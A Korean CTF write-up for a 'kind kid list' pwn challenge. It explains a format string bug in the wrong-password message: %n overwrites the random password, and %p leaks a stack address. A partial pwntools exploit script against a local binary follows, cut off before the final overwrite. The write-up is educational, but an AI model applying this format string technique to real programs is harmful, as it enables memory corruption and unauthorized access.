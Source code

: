 ```C
    puts("Wyv3rn : Here is flag!");
    flag();
    exit(0);
  }
  puts("Wyv3rn : My name is not on the kind kid list!");
  exit(0);
}
```

시작 화면
![](https://i.imgur.com/1Yh5262.png)

요약하자면 wyn3rn이라는 사람이 있고 3가지 경우가 있다. 
1.은 kind list와 naughty list를 출력해준다.
2.는 kind list에 추가를 한다.
3.wyv3rn에게 간다.

![](https://i.imgur.com/GXtCNav.png)
현재 kind kid 에는 아무도 없고 naughty kid에는 wyn3rn이 있다.
우리의 목적은 kind kid에 wyv3rn 을 넣어야 하고 naughty kid에는 wyv3rn을 없에야 한다. 

![](https://i.imgur.com/oiBv2x8.png)
그런데 2번항목을 실행하려면 password를 입력해야 한다. password는 랜덤 값이다.
![](https://i.imgur.com/WHYuBhA.png)
password는 malloc으로 할당되어있다. 

![](https://i.imgur.com/gA8gVjo.png)
여기서 password가 틀릴시 \[내가 입력한 문자열] + is Wrong password! 라고 출력을 하는데 이 때 format string bug 취약점이 발생한다.

그래서 %n을 통해 password의 포인터를 참조해서 password의 값을 바꿀 수 있다.
![](https://i.imgur.com/TEpU8YV.png)

offset은 31만큼 차이난다.

password를 뚫으면 wyv3rn를 입력하고 이제는 naughty kid를 지워야 한다. 이럴 때에는 kindlist에 nuaghty kid의 주소를 넣고 kind kid를 참조하여 값을 조작할 수 있다. 이때 8바이트 전부 덮어야 하는데 %n은 최대 4바이트여서 2번에 나눠서 한다.

naughty 의 address는 %p로 leak 하면 된다.

익스코드

```python
from pwn import *
  
context.log_level = 'debug'
p = process("./chall")
  
pause()
  
p.sendlineafter(b">> ", b'2')
p.sendlineafter(b"Password : ", b'%31$n')
p.sendlineafter(b">> ", b'2')
passwd = 0x0068518c00000000
p.sendlineafter(b"Password : ", p64(passwd))
  
p.sendlineafter(b"Name : ", b'wyv3rn')  
  
 
 
p.sendlineafter(">> ", b'2')
p.sendlineafter("Password : ", b'%p')
p.recvuntil(b"0x")
stack_add = int(p.recv(12), 16)
naughty_add = stack_add + 0x20
```
